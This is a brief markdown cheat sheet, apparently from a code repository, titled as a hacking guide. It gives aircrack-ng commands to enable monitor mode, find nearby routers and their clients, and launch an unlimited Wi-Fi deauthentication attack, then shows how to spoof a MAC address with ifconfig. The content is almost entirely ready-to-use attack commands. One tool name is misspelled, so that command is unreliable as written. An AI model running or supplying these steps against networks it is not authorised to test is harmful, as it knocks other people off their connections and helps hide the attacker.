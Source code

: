 # Cheatsheet for hacking stuff

## Networking stuff

### Show my wireless card name
`iwconfig`

### Put wireless card on monitor mode
`airmon-ng start {card name}`

### Show routers in range
`airdump-ng {card name}`
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Show devices connected to a specific router
`airodump-ng {card name} --bssid {router BSSID} --channel {router channel}`
- router is also included there

### Create deauth attack
`aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}`
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

F4:A9:97:8B:29:DB